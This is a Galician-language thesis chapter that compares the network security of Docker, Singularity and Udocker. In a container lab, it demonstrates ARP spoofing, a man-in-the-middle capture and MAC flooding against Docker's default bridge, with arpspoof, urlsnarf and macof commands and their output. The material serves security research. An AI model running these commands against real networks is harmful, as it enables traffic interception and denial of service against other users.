\chapter{Redes}
\minitoc
\clearpage

Neste capítulo trataranse as implicacións de seguridade que poidan ter as diferentes tecnoloxías de contedorización segundo o seu modelo de rede.

\section{Docker}

\subsection{Introdución ao modelo de rede de Docker}

O modelo de rede de Docker está composto por un subsistema de rede virtual que permite finalmente aos diferentes contedores conectarse á rede que emprega a máquina anfitrioa.\\

Tal e como vén reflectido na documentación oficial de Docker \cite{docker-networking}, non existe unha única forma de despregar este subsistema de rede, senón que coexisten diversos modelos que podemos escoller baixo libre elección: \textit{bridge, host, overlay, macvlan} ou \textit{none}. Cada un deles pensado para ser empregado en diferentes casos de uso.\\

Analizaremos con detemento o modo \textit{bridge}, posto que é o modo por defecto no que o subsistema de rede de Docker é despregado, ademais de ser o modo recomendado para executar contedores independentes que se precisan comunicar. É dicir, cando iniciamos Docker, unha rede \textit{bridge} é creada automaticamente, e será empregada por defecto polos novos contedores \cite{docker-bridge-networks}. Este modo de execución é o máis común, xa que normalmente non interesa executar un contedor illado, senón que se poida comunicar co exterior.\\

Dende un punto de vista arquitectónico, todos os contedores conectados en rede nun anfitrión Docker mediante unha interface \textit{bridge} son equivalentes a máquinas físicas conectadas mediante un \textit{switch Ethernet} común \cite{docker-security}. Unha aproximación visual deste modelo de rede pode ser observada na figura \ref{DockerTopology}\\

\begin{figure}
\centerline{
\includegraphics[width=15cm]{figuras/Docker_Topology.jpg}}
\caption{Modelo de rede \textit{bridge} de Docker}
\small
\centerline{Fonte: \url{http://prog3.com/sbdm/blog/shlazww/article/details/47284675}}
\label{DockerTopology}
\end{figure}

Polo tanto, cando se crea un novo contedor Docker, tamén se establece unha nova interface virtual \textit{Ethernet} cun nome único e conéctase ao nomeado \textit{bridge} ou ponte de rede. Esta interface estará conectada ao interface de rede \textit{eth0} do contedor, permitindo así mandar paquetes á ponte dende o mesmo. Este modelo de conectividade establecido por defecto por Docker é susceptíbel a ataques como \gls{ARP} \textit{spoofing} ou \gls{MAC} \textit{flooding}, posto que a ponte permite o reenvío (\textit{forwarding}) de todos os paquetes recibidos sen ningún tipo de filtrado \cite{Securing-Docker-Containers-from-Denial-of-Service}.\\

\subsection{Explotación de vulnerabilidades}

Detectado un posíbel vector de ataque por mor da estrutura de rede seguida por Docker, cómpre realizar probas que aseguren dito comportamento.

Para poder comprobar que as vulnerabilidades previamente detectadas son realmente un posíbel vector de ataque na emprega de contedores Docker, creouse unha pequena estrutura de contedores coa axuda de Docker Compose\footnote{\url{https://docs.docker.com/compose/}}, tal e como ven especificado no anexo \ref{codigo-arp-spoofing}, conectando en rede aos mesmos. A estrutura creada está composta por:

\begin{itemize}
    \item Un contedor servidor correndo Nginx 1.13.10.
    \item Un contedor cliente correndo Ubuntu Xenial 16.04.
    \item Un contedor atacante correndo Kali Linux 2018.1.
\end{itemize}

Devandita estrutura foi levantada sobre unha máquina virtual Ubuntu Xenial 16.04 aloxada no servizo de computación na nube do \gls{CESGA}. A composición final pode ser apreciada na figura \ref{DiagramaRedeDockerCloud}.\\

\begin{figure}
\centerline{
\includegraphics[width=15cm]{figuras/DiagramaRedeDockerCloud.png}}
\caption{Estrutura de contedores Docker para a explotación de vulnerabilidades en rede}
\label{DiagramaRedeDockerCloud}
\end{figure}

Aproveitando as debilidades da rede asociadas ao modelo establecido nos contedores Docker, no que existe un suposto reenderezamento sen ningún tipo de filtrado coa rede da máquina anfitrioa, tratarase de obter tráfico da rede de forma ilexítima dende o contedor atacante namentres se realiza unha comunicación entre os contedores cliente e servidor.

\subsubsection{\gls{ARP} \textit{spoofing}}

%TODO citar to docker or not to docker: El único defecto es que todos los contenedores comparten el mismo puente de red, lo que permite ataques de envenenamiento con el protocolo de resolución de direcciones (ARP) entre contenedores en el mismo host. ---> Namespace isolation and capabilities drop are enabled by default, but cgroups limitations aren’t; they must be enabled on a per-container basis through -a -c options on container launch. The default isolation configuration is relatively strict. The only flaw is that all containers share the same network bridge, enabling Address Resolution Protocol (ARP) poisoning attacks between containers on the same host

\paragraph{Explicación teórica do ataque}~~

Para comprender o que se pretende facer con este ataque, é importante explicar primeiramente de que se trata.\\

O protocolo \gls{ARP}, ou Protocolo de Resolución de Direccións, é un dos protocolos de rede máis básicos pero máis esenciais que existen. É o encargado de resolver o enderezo físico (\gls{MAC}) dunha máquina dado o seu enderezo \gls{IP}. O seu funcionamento baséase no envío dun paquete, \gls{ARP} \textit{request}, a todos os integrantes da rede (\textit{broadcast}), que contén o enderezo \gls{IP} polo que se pregunta e agárdase a que a máquina asociada a devandito enderezo \gls{IP} responda (\gls{ARP} \textit{reply}) co seu enderezo físico correspondente. Cada máquina manterá unha caché cos enderezos traducidos para reducir o retardo, conformando así a denominada táboa \gls{ARP}. Polo tanto, o protocolo \gls{ARP} permite a independencia dos enderezos \gls{IP} e \gls{MAC}.\\

Por mor da falta de mecanismos de autenticación para verificar a identidade do remitente, o protocolo \gls{ARP} ten unha longa historia de propensión como vector de ataques de suplantación \cite{detectingARPSpoofing}. Así, intrinsecamente asociado ao funcionamento deste protocolo, existe o risco de suplantación de \gls{ARP}, ou \gls{ARP} \textit{spoofing}. Este consiste no envío de mensaxes \gls{ARP} falsas á \textit{Ethernet}, conseguindo así asociar o enderezo \gls{MAC} do atacante co enderezo \gls{IP} doutra máquina (a vítima). Como consecuencia deste feito, calquera tráfico dirixido a ese enderezo IP será erroneamente enviado ao atacante, no canto de acadar o seu destino lexítimo.\\

Chegados a este punto, o atacante pode levar a cabo diversas accións:

\begin{itemize}
\item Reenviar os paquetes ao seu verdadeiro destinatario, producíndose un ataque \textit{man-in-the-middle} (MITM), no que ademais pode:
    \begin{itemize}
    \item Reenviar os paquetes sen modificar o seu contido.
    \item Modificar o contido dos paquetes e logo reenvialos ao destinatario.
    \end{itemize}
\item Asociar un enderezo \gls{MAC} inexistente co enderezo \gls{IP} da porta de enlace predeterminada da vítima, evitando así a comunicación da mesma co exterior e producíndose por tanto un ataque de denegación de servizo (\gls{DoS}).
\end{itemize}

Deste xeito, a suplantación \gls{ARP} supón en moitas ocasións o punto de partida para ataques de rede máis sofisticados, como ataques de denegación de servizo, \textit{Man in the middle} ou secuestro de sesións.\\

\paragraph{Realización dun ataque \gls{ARP} \textit{spoofing}}~~

Posto que o risco existe polo simple xeito de conectar unha máquina á rede local mediante \textit{Ethernet}, o modelo de rede de Docker previamente explicado fai que sexa susceptíbel de por si ao ataque. Realizarase unha proba baixo a estrutura da figura \ref{DiagramaRedeDockerCloud} para confirmalo. Os pasos seguidos foron os seguintes:

\begin{enumerate}
\item Previo ao ataque:

En primeira instancia, son comprobados todos os enderezos \gls{IP} e físicos, así como as táboas \gls{ARP} dos contedores cliente e servidor.

\begin{lstlisting}[,caption={Consulta dos enderezos \gls{IP} e físico no contedor atacante}]
root@9f3f255ace4a:/# ifconfig 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.4  netmask 255.255.0.0  broadcast 0.0.0.0
        inet6 fe80::42:acff:fe12:4  prefixlen 64  scopeid 0x20<link>
        ether 02:42:ac:12:00:04  txqueuelen 0  (Ethernet)
        RX packets 36822  bytes 82108747 (78.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 36389  bytes 2895807 (2.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
\end{lstlisting}

\begin{lstlisting}[,caption={Consulta dos enderezos \gls{IP} e físico no contedor cliente}]
root@20136c4451bb:/# ifconfig 
eth0      Link encap:Ethernet  HWaddr 02:42:ac:12:00:02  
          inet addr:172.18.0.2  Bcast:0.0.0.0  Mask:255.255.0.0
          inet6 addr: fe80::42:acff:fe12:2/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:5527 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1708 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:30975137 (30.9 MB)  TX bytes:124933 (124.9 KB)
\end{lstlisting}

\begin{lstlisting}[,caption={Consulta dos enderezos \gls{IP} e físico no contedor servidor}]
root@07cecfe068f2:/# ifconfig 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.3  netmask 255.255.0.0  broadcast 0.0.0.0
        inet6 fe80::42:acff:fe12:3  prefixlen 64  scopeid 0x20<link>
        ether 02:42:ac:12:00:03  txqueuelen 0  (Ethernet)
        RX packets 3848  bytes 10735169 (10.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1291  bytes 92650 (90.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
\end{lstlisting}

Recollidos e estruturados ditos datos obtemos a táboa \ref{direccions-rede}.

\begin{table}[H]
\centering
\caption{Enderezos de rede dos contedores involucrados no ataque}
\label{direccions-rede}
\begin{tabular}{|c|c|c|}
\hline
\textbf{Contedor} & \textbf{Enderezo \gls{IP}} & \textbf{Enderezo físico} \\ \hline
Atacante & 172.18.0.4 & 02:42:ac:12:00:04 \\ \hline
Cliente & 172.18.0.2 & 02:42:ac:12:00:02 \\ \hline
Servidor & 172.18.0.3 & 02:42:ac:12:00:03 \\ \hline
\end{tabular}
\end{table}

\item Execución do ataque:

Para executar o ataque, o contedor atacante enviará en bucle numerosas mensaxes \gls{ARP} aos contedores cliente e servidor, co fin de envelenar as súas respectivas táboas \gls{ARP} e tendo lugar por conseguinte un ataque \textit{man-in-the-middle}. Para isto, empregarase o software \textit{arpspoof}, pertencente ao paquete de utilidades \textit{dsniff}\footnote{\url{https://www.monkey.org/~dugsong/dsniff/}}.

\begin{lstlisting}[,caption={Envelenamento das táboas \gls{ARP} dende o contedor atacante}]
root@9f3f255ace4a:/# arpspoof -i eth0 172.18.0.2 -t 172.18.0.3 &
root@9f3f255ace4a:/# arpspoof -i eth0 172.18.0.3 -t 172.18.0.2 &
\end{lstlisting}

\item Comprobación do ataque:

Unha vez foron enviadas algunhas mensaxes \gls{ARP} co fin de envelenar as táboas dos contedores cliente e servidor, comprobaremos que o ataque se efectuou correctamente. Para iso, inspeccionáronse novamente as táboas \gls{ARP}, onde agora se pode ver con total claridade como as asociacións entre enderezos físicos e \gls{IP} víronse truncados, facendo chegar polo tanto paquetes non lexítimos ao contedor atacante.

\begin{lstlisting}[,caption={Consulta da táboa \gls{ARP} do contedor cliente}]
root@20136c4451bb:/# arp -a
arpspoof_kali_1.arpspoof_default (172.18.0.4) at 02:42:ac:12:00:04 [ether] on eth0
? (172.18.0.1) at 02:42:39:9e:31:24 [ether] on eth0
arpspoof_nginx_1.arpspoof_default (172.18.0.3) at 02:42:ac:12:00:04 [ether] on eth0
\end{lstlisting}

\begin{lstlisting}[,caption={Consulta da táboa \gls{ARP} do contedor servidor}]
root@07cecfe068f2:/# arp -a
arpspoof_kali_1.arpspoof_default (172.18.0.4) at 02:42:ac:12:00:04 [ether] on eth0
? (172.18.0.1) at 02:42:39:9e:31:24 [ether] on eth0
arpspoof_ubuntu_1.arpspoof_default (172.18.0.2) at 02:42:ac:12:00:04 [ether] on eth0
\end{lstlisting}

\paragraph{Realización dun ataque \textit{man-in-the-middle}}~~

Aproveitando o éxito do ataque \gls{ARP} \textit{spoofing}, podemos recibir contidos non asociados ao noso contedor, é dicir, realizarase tamén un ataque \textit{man-in-the-middle}. Para isto, no contedor atacante executaremos a utilidade \textit{urlsnarf}, pertencente tamén ao paquete \textit{dsniff}, o cal mostrará por pantalla todas as URLs solicitadas, como forma de comprobar o éxito deste ataque. No proceso será necesario que, por exemplo, o contedor cliente solicite unha páxina web ao contedor servidor.

\begin{lstlisting}[,caption={Solicitude dunha páxina web dende o contedor cliente ao contedor servidor}]
root@20136c4451bb:/# curl nginx
<!DOCTYPE html>
<html>
.
.
.
</html>
\end{lstlisting}

\begin{lstlisting}[,caption={Escoita de solicitudes web con \textit{urlsnarf} dende o contedor atacante}]
root@9f3f255ace4a:/# urlsnarf -i eth0
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]

arpspoof_ubuntu_1.arpspoof_default - - [06/Apr/2018:08:57:08 +0000] "GET http://nginx/ HTTP/1.1" - - "-" "curl/7.47.0"
\end{lstlisting}

Deste xeito, queda demostrado que o envelenamento se efectuou con éxito e que o contedor atacante é quen de escoitar as conexión que se realizan entre os outros contedores, tendo por tanto éxito o ataque \textit{man-in-the-middle}, o cal ten serias consecuencias, como podería ser a modificación do contido dos paquetes intercambiados se así quixer, ou efectuar un ataque de denegación de servizo.

\end{enumerate}

\subsubsection{\gls{MAC} \textit{flooding}}

\paragraph{Explicación teórica do ataque}~~

Continuando coas debilidades asociadas ao protocolo \gls{ARP}, efectuaremos un ataque de \gls{MAC} \textit{flooding}. Este ataque ten como intención comprometer a seguridade dos conmutadores de rede. Normalmente, estes conmutadores manteñen unha táboa \gls{ARP}, como xa foi explicado no ataque de \gls{ARP} \textit{spoofing}, mais neste caso, o obxectivo a acadar é facer caer dita táboa. Para logralo, o atacante envía numerosas peticións \gls{ARP} ao conmutador, até facer desbordar a súa táboa \gls{ARP} interna, provocando que os enderezos físicos e \gls{IP} dos usuarios lexítimos sexan excluídos. Cando se chega a dito punto, o conmutador non posúe información sobre a quen debe enviar os paquetes entrantes, polo que se ve na obriga de entrar en modo \textit{hub}, reenviando todos os paquetes entrantes a todos os dispositivos conectados no mesmo, actuando así nun modo \textit{broadcast}.\\

A principal diferenza entre un ataque de \gls{MAC} \textit{flooding} e un de \gls{ARP} \textit{spoofing} é que o primeiro está dirixido a un obxectivo moito máis xeral, un conmutador da rede, mentres que que o segundo ten como fin a confusión entre enderezos específicos. Ademais, o ataque de \gls{MAC} \textit{flooding} posúe a vantaxosa e perigosa característica de que ao non estar enfocado nun obxectivo xeral, e apoiándose no funcionamento do protocolo \gls{ARP}, pode chegar a propagarse pola totalidade da rede, coa provocación de desbordamentos de táboas \gls{ARP} encadeados entre os diferentes dispositivos que compón dita rede.

\paragraph{Realización dun ataque \gls{MAC} \textit{flooding}}~~

Aproveitando novamente a estrutura da figura \ref{DiagramaRedeDockerCloud}, realizarase un ataque de \gls{MAC} \textit{flooding}. Se o ataque ten éxito, deberiamos ser quen de ollar paquetes alleos dende o contedor atacante, pertencentes aos outros contedores da rede. A súa execución segue os seguintes pasos:

\begin{enumerate}
\item Previo ao ataque:

Escoita de todos os paquetes que cheguen á rede do contedor atacante:
    
\begin{lstlisting}[,caption={Escoita dos paquetes entrantes á rede do contedor atacante}]
root@9403362d194e:/# tcpdump -i eth0 -X -vv
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
\end{lstlisting}

\item Execución do ataque:

Enviamos numerosas solicitudes \gls{ARP} dende o contedor atacante á rede. Para automatizar o proceso, facemos uso da ferramenta \textit{macof}, pertencente ao paquete de utilidades \textit{dsniff}\footnote{\url{https://www.monkey.org/~dugsong/dsniff/}}.

\begin{lstlisting}[,caption={Execución do ataque \textit{macof}}]
root@9403362d194e:/# macof 
23:35:f0:47:32:2a 1:a9:ca:38:a8:dd 0.0.0.0.33552 > 0.0.0.0.17981: S 215025915:215025915(0) win 512
b1:7b:e5:0:e7:e4 91:fe:39:2e:2e:ae 0.0.0.0.12840 > 0.0.0.0.19430: S 1017556768:1017556768(0) win 512
98:8:33:39:31:80 a5:58:b9:5f:dd:4d 0.0.0.0.20270 > 0.0.0.0.5234: S 795884266:795884266(0) win 512
a8:8:54:1e:6d:e7 7c:2b:df:20:c8:8 0.0.0.0.8086 > 0.0.0.0.51239: S 1625463231:1625463231(0) win 512
25:e9:f:7d:38:77 1f:89:2b:11:0:13 0.0.0.0.43039 > 0.0.0.0.55182: S 199622377:199622377(0) win 512
e8:85:91:32:9a:4c ba:52:5e:41:d7:f0 0.0.0.0.56124 > 0.0.0.0.27045: S 1368523758:1368523758(0) win 512
c0:80:e:b:7c:7c 2d:23:d8:9:2a:d8 0.0.0.0.35983 > 0.0.0.0.9435: S 1477501491:1477501491(0) win 512
.
.
\end{lstlisting}

\item Comprobación do ataque:

Pasado un tempo, no que as numerosas solicitudes \gls{ARP} xa fixeron desbordar a táboa \gls{ARP} do conmutador (a interface Docker \textit{Bridge}), consúltase o estado dos paquetes recibidos polo contedor atacante. Nun principio a idea era que se puidesen ollar paquetes pertencentes á subrede Docker despregada, non obstante os resultados trocaron ben distintos. Comezaron chegar paquetes pertencentes ao exterior da subrede creada para a proba, evidenciando o alcance do ataque e tamén unha posíbel mala xestión da seguridade da rede da \gls{MV} sobre a que se construíu a estrutura para a realización desta proba. A imaxe \ref{ataqueMacFlooding} amosa este feito (os enderezos \gls{IP} foron ocultados para respectar a privacidade). Deste xeito, dende o contedor atacante é posíbel observar conexións doutras máquinas con páxinas externas como, por exemplo, a Universidade de Texas.

\begin{figure}[H]
\centerline{
\includegraphics[width=15cm]{figuras/ataqueMacFlooding.png}}
\caption{Paquetes lidos dende o contedor atacante no transcurso do ataque \gls{MAC} \textit{flooding}}
\label{ataqueMacFlooding}
\end{figure}

\end{enumerate}

\section{Singularity}

\subsection{Introdución ao modelo de rede de Singularity}

Singularity emprega a mesma rede que calquera outro proceso da máquina anfitrioa. Posto que Singularity non emula ningún paradigma de virtualización a nivel de hardware, non é necesario separar as redes do espazo illado dos contedores do resto do sistema, xa que, en principio, non existe o concepto de escalada de privilexios dentro dos contedores Singularity. É dicir, os programas executados baixo un contedor Singularity terán os mesmos privilexios que se o fixese dende fóra, polo que os riscos asociados á emprega da rede non dependerán da emprega deste tipo de contedores. \cite{SingularityHPC}

\subsection{Inviabilidade do ataque}

Grazas a este modelo de rede, Singularity non pode ser vulnerábel aos ataques aos que Docker, por defecto, si que o é, posto que comparte a rede coa da propia máquina anfitrioa e os permisos dentro do contedor son os mesmos que fóra del.\\

Un posíbel vector de ataque viría dado pola escalada de privilexios e tentar executar programas de rede con permisos de superusuario dentro do contedor. Este feito será estudado con máis detalle na sección \ref{demo-fail-escalada}.

\section{Udocker}

\subsection{Introdución ao modelo de rede de Udocker}

Tal e como foi indicado na presentación desta tecnoloxía na sección \ref{introUdocker}, Udocker nunca acada privilexios avanzados de superusuario, polo que ten certas limitacións sobre a rede. Ademais, Udocker non desprega ningún tipo de entorno de rede adicional, simplemente emprega a rede da máquina anfitrioa. Isto é trivial no sentido de que para poder despregar cambios na rede son precisos permisos de superusuario, requirindo UID=0, e polo tanto, Udocker non pode facer nada.

\subsection{Inviabilidade do ataque}

Polos motivos expostos, ao igual que a tecnoloxía de Singularity, con Udocker tampouco é posíbel efectuar os mesmos tipos de ataque sobre a rede que si son viábeis en Docker. Para que estes ataques puidesen ser efectuados, Udocker debería ter un control máis avanzado sobre as redes, só alcanzábel coa outorga de privilexios de superusuario, que nunca ten.
